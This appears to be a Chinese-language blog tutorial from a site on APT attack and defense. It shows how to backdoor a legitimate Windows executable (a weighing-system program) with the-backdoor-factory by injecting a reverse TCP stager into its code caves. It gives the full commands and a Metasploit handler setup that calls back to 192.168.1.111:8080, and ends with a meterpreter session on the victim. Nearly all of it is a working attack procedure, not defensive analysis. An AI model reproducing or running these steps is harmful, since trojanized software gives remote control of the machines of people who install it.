










专注APT攻击与防御
https://micropoor.blogspot.com/

项目地址：
https://github.com/secretsquirrel/the-backdoor-factory

原理：可执行二进制文件中有大量的00，这些00是不包含数据的，将这些数据替换成payload，并且在程序执行的时候，jmp到代码段，来触发payload。

**以项目中的过磅系统为例：**

`root@John:~/Desktop# git clone https://github.com/secretsquirrel/the-backdoor- factory.git  //安装the-backdoor-factory`


`root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -S //检测是否支持后门植入`


`root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -c -l 150 //测试裂缝空间size150`


`root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -s show //查看可用payload`


`root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -H 192.168.1.111 -P 8080 -s iat_reverse_tcp_stager_threaded //插入payload，并生成文件。`



`root@John:~/Desktop/the-backdoor-factory# md5sum ./guobang.exe /root/demo/guobang.exe
//对比原文件与生成文件MD5值`


`root@John:~/Desktop/the-backdoor-factory# du -k ./guobang.exe /root/demo/guobang.exe
//对比文件大小`


```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.111
lhost => 192.168.1.111
msf exploit(handler) > set lport 8080
lport => 8080
msf exploit(handler) > exploit -j 
//开启本地监听
```


//打开软件


```
meterpreter > getuid
Server username: John-PC\John 
//确定目标
```


>   Micropoor
